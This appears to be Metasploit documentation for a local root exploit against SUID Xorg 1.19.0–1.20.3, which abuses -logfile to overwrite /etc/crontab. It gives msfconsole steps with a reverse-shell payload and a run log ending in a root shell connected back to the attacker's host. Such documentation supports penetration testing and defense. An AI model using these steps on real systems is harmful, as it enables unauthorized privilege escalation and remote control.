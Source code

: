 ## Description

  This module attempts to gain root privileges using Xorg X11 server versions 1.19.0 < 1.20.3 set as SUID.  A permission check flaw exists for -modulepath and -logfile options when starting Xorg.  This flaw allows users to write over existing files on the system.  This exploit backs up crontab and then uses -logfile to overwrite it.  A command to be run is set for the Font Path argument -fp which will be logged and ran by cron.        


## Vulnerable Application

  Xorg (commonly referred as simply X) is the most popular display server among Linux users. Its ubiquity has led to making it an ever-present requisite for GUI applications, resulting in massive adoption from most distributions.  

  Xorg is more restrictive to exploit under CentOS.  The user must have console lock and SeLinux may interfere.

  This module has been tested successfully on:

  * OpenBSD 6.3
  * OpenBSD 6.4
  * CentOS 7.5.1084 x86_64


## Verification Steps
  On CentOS your session must have console lock.  To get a console lock you can login locally with a user.  

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/multi/local/xorg_x11_suid_server`
  4. Do: Set a payload/target or use default(cmd/unix/reverse_openssl)   
  5. Do: `set SESSION [SESSION]`
  6. Do: `set LHOST [LHOST]`
  7. Do: `run`
  8. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

## Advanced Options

  **Xdisplay**

  Display to use for Xorg (default: `:1`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

```
msf5 exploit(multi/local/xorg_x11_suid_server) > set session 1
session => 1
msf5 exploit(multi/local/xorg_x11_suid_server) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse double SSL handler on 172.30.0.2:4444
[+] Passed all initial checks for exploit
[*] Uploading your payload, this could take a while
[*] Trying /etc/crontab overwrite
[+] /etc/crontab overwrite successful
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo t2XWfcWkZHevLPS8;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "t2XWfcWkZHevLPS8\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (172.30.0.2:4444 -> 172.30.0.99:41253) at 2018-11-12 15:06:39 -0600
[+] Returning session after cleaning
[+] Deleted /tmp/.session-odRjfx

id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
```
